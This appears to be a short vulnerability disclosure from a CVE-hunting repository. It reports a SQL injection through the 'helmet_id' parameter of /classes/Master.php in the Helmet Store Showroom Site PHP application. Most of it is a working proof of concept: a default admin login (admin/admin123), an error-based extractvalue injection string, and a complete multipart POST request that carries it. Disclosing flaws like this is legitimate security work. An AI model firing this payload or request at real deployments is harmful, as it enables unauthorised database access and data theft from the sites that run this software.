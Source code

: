 # Helmet Store Showroom Site System - SQL injection

Helmet Store Showroom Site exists to contain a SQL injection vulnerability via the 'helmet_id' parameter at /classes/Master.php

username:admin password:admin123 ----> {ip}/classes/Master.php

Supplier： https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

/classes/Master.php has SQL injection

Payload: 111'and/**/extractvalue(1,concat(char(126),md5(1746173171)))and'

SQL injection because $helmet_id can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/5.png)

## Payload

```
POST /CVE/hss/classes/Master.php?f=save_inquiry HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 986
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.9
Content-Type: multipart/form-data; boundary=57c2d94ec4205b3103c239caae79f9e5a245d498c78feab57ce3c7365969
Cookie: PHPSESSID=n2hadqmvc7m63oc6q677vrodfv
Origin: http://localhost
Referer: http://localhost/CVE/hss/?page=view_product&id=5
Sec-Ch-Ua: ";Not A Brand";v="99", "Chromium";v="94"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

--57c2d94ec4205b3103c239caae79f9e5a245d498c78feab57ce3c7365969
Content-Disposition: form-data; name="message"
Content-Type: form-data

11
--57c2d94ec4205b3103c239caae79f9e5a245d498c78feab57ce3c7365969
Content-Disposition: form-data; name="id"
Content-Type: form-data


--57c2d94ec4205b3103c239caae79f9e5a245d498c78feab57ce3c7365969
Content-Disposition: form-data; name="helmet_id"
Content-Type: form-data

5'and/**/extractvalue(1,concat(char(126),md5(1746173171)))and'
--57c2d94ec4205b3103c239caae79f9e5a245d498c78feab57ce3c7365969
Content-Disposition: form-data; name="fullname"
Content-Type: form-data

111
--57c2d94ec4205b3103c239caae79f9e5a245d498c78feab57ce3c7365969
Content-Disposition: form-data; name="email"
Content-Type: form-data

11@QQ.COM
--57c2d94ec4205b3103c239caae79f9e5a245d498c78feab57ce3c7365969
Content-Disposition: form-data; name="contact"
Content-Type: form-data

11
--57c2d94ec4205b3103c239caae79f9e5a245d498c78feab57ce3c7365969--

```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/4.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/7.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/.png)